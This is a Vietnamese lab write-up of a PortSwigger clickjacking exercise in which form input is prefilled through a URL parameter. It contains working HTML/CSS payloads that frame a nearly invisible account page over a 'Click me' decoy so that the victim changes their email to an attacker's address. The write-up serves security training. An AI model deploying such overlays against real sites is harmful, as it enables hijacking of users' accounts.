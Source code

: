 # Clickjacking with prefilled form input

**Tấn công clickjacking với form đã được điền sẵn** là một kỹ thuật tấn công khai thác cách các trang web xử lý dữ liệu đầu vào của form thông qua tham số GET trong URL. Dưới đây là cách hoạt động của kiểu tấn công này:

1. **Form cho phép điền trước dữ liệu qua GET param**

- Một số trang web cho phép tự động điền trước dữ liệu vào các trường trong form bằng cách sử dụng tham số GET trong URL.

- Ví dụ: *https://example.com/form?name=John&email=john@example.com* sẽ tự động điền các trường "name" và "email" trong form trên trang.

2. **Tận dụng URL chứa dữ liệu của attacker**

- Vì các tham số GET là một phần của URL, kẻ tấn công có thể sửa đổi URL để chứa dữ liệu theo ý mình, như các thông tin độc hại hoặc thông tin mà chúng muốn người dùng vô tình gửi đi.

3. **Overlay nút "submit" trong giao diện giả mạo**

- Attacker tạo 1 website giả mạo (decoy site) với giao diện thu hút người dùng.

- Sau đó, chúng nhúng trang web mục tiêu (với form đã được điền sẵn dữ liệu từ URL) vào trong một **iframe ẩn**.

- Nút "submit" của form được căn chỉnh chính xác để nằm dưới một nút hoặc khu vực nào đó trên giao diện giả mạo.

4. **Người dùng vô tình gửi form**

- Khi người dùng tương tác với giao diện của trang web giả mạo, họ vô tình nhấn nút "submit" của form trên trang web mục tiêu mà không hề hay biết.

- Điều này dẫn đến việc gửi dữ liệu mà kẻ tấn công đã chuẩn bị trước.

5. **Biến thể**

- Một số trang web yêu cầu người dùng phải nhập dữ liệu trước khi gửi form. Kẻ tấn công vẫn có thể sử dụng phương pháp tương tự, miễn là form cho phép điền dữ liệu trước qua URL.

Kiểu tấn công này kết hợp việc sử dụng tham số GET để điền sẵn dữ liệu vào form và clickjacking để người dùng vô tình gửi form chứa dữ liệu độc hại hoặc không mong muốn. Đây là một ví dụ khác của việc lợi dụng lỗ hổng giao diện để thao túng hành vi của người dùng.

# Lab: Clickjacking with form input data prefilled from a URL parameter
![img](https://github.com/DucThinh47/PortSwigger/blob/main/Clickjacking(UI_redressing)/images/image7.png?raw=true)

### Web page
![img](https://github.com/DucThinh47/PortSwigger/blob/main/Clickjacking(UI_redressing)/images/image8.png?raw=true)

### Solution

Log in vào account được cấp wiener:peter:

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Clickjacking(UI_redressing)/images/image9.png?raw=true)

Để giải quyết bài lab, tiếp tục cần sử dụng payload có dạng như sau: 

    <style>
        iframe {
            position:relative;
            width:$width_value;
            height: $height_value;
            opacity: $opacity;
            z-index: 2;
        }
        div {
            position:absolute;
            top:$top_value;
            left:$side_value;
            z-index: 1;
        }
    </style>
    <div>Test me</div>
    <iframe src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>

Chỉnh sửa payload thành: 

    <style>
        iframe {
            position:relative;
            width:1000px;
            height:500px;
            opacity: 0.1;
            z-index: 2;
        }
        div {
            position:absolute;
            top:515px;
            z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe src="https://0acc004304afd6c481d2434f003f0064.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>

Go to exploit server và copy payload vào phần body: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Clickjacking(UI_redressing)/images/image10.png?raw=true)

Store và View Exploit: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Clickjacking(UI_redressing)/images/image11.png?raw=true)

Căn chỉnh lại payload để Text Click me nằm đè lên Update email button. 

    <style>
        iframe {
            position:relative;
            width:700px;
            height:500px;
            opacity: 0.0001;
            z-index: 2;
        }
        div {
            position:absolute;
            top:445px;
            left: 80px;
            z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe src="https://0acc004304afd6c481d2434f003f0064.web-security-academy.net/my-account?email=attacker111@test.com"></iframe>

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Clickjacking(UI_redressing)/images/image12.png?raw=true)

Sau khi chỉnh xong, thay giá trị opacity thành 0.00001, thay email và click Deliver exploit to victim.

Solved the lab

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Clickjacking(UI_redressing)/images/image13.png?raw=true)

